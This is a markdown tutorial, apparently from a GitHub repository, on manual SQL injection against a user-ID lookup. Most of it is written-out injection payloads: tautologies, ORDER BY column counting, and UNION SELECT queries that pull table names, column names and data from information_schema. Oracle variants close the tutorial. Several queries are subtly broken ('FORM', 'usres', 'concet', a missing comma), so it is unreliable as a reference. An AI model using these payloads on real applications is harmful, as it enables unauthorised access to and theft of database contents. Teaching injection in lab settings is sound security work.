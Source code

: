  ## Manual SQL Injention:

 # Pre-requisites:

   1. Knowledge of SQL (Structerd Query Language), basic (CREATE,READ,UPDATE,DELETE)
   2. Backend Technologies (PHP,JSP etc.)
   3. Web application basic

  # Working:
   1.Methodology:

     Application says:
     Enter a User ID.

     Backend Query:
     SELECT first_name, last_name FORM users WHERE user_id = '$id';

     User Input:
     1

     Backend Query:
     SELECT first_name, last_name FORM users WHERE user_id = '1';

     user input:
     1'

     Backend Query:
     SELECT first_name, last_name FORM users WHERE user_id = '1'';


     Malicious User Input:
     1' or 1='1 

     Backend Query:
     SELECT first_name, last_name FORM usres WHERE user_id = '1' or 1='1';

     Malicious User Input:
     1' or 1=1#

     Basckend Query:
     SELECT first_name, last_name FORM users WHERE user_id = '1' or 1=1#';

   2.Finding Number of columns in the current table:
      
      Malicious User Input:
      1' ORDER BY 1,2,3,4,5,6,7,8#

      Backend Query:
      SELECT first_name, last_name FORM users WHERE user_id = '1' ORDER BY 1,2,3,4,5,6,7,8#;

   3.Finding reflection of output:

      Malicious User Input:
      1' UNION SELECT 1,2,3,4,5,6,7,8#

      Backend Query:
      SELECT first_name, last_name FORM users WHERE user_id = '1' UNION SELECT 1,2,3,4,5,6,7,8#;

   4.Extracting senstive information:
      
      Common cammands: version(), user(), @@hostname, database()

      List table name:
          1' UNION SELECT 1,table_name,3,4,5,6,7,8 from information_schema.tables#

          Backend Query:
          SELECT first_name, last_name FORM users WHERE user_id = '1' UNION SELECT 1,table_name,3,4,5,6,7,8 from information_schema.tables#;

      List columns:
          1' UNION SELECT 1,column_name,3,4,5,6,7,8 from information_schema.columns where table_name=$TABLE_NAME$#

          Backend Query:
          SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,column_name,3,4,5,6,7,8 from information_schema.columns Where table_name=$TABLE_NAME$#;
        
      Extract data off columns:
          
          1' UNION SELECT 1,$COLUMN_NAME1$,$COLUMN_NAME2$4,5,6,7,8 from $TABLE_NAME$#

          Backend Query:
          SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,$COLUMN_NAME1$,$COLUMN_NAME2$,4,5,6,7,8 from $TABLE_NAME$#;

          1' UNION SELECT 1,concet($COLUMN_NAME1$,$SEPARATORS$,$COLUMN_NAME2$),3,4,5,6,7,8 from $TABLE_NAME$#

          Backend Query:
          SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,concet($COLUMN_NAME1$,$SEPARATOR$,$COLUMN_NAME2),3,4,5,6,7,8 from $TABLE_NAME$#;


  # Oracle Database:
  
     1.For version
    'UNION SELECT banner FROM v$version
    'UNION SELECT version FROM v$instance

    2.Database contents
    'UNION SELECT table_name,2 FROM all_tables
    'UNION SELECT column_name,2 FROM all_tab_columns WHERE table_name='table name'  
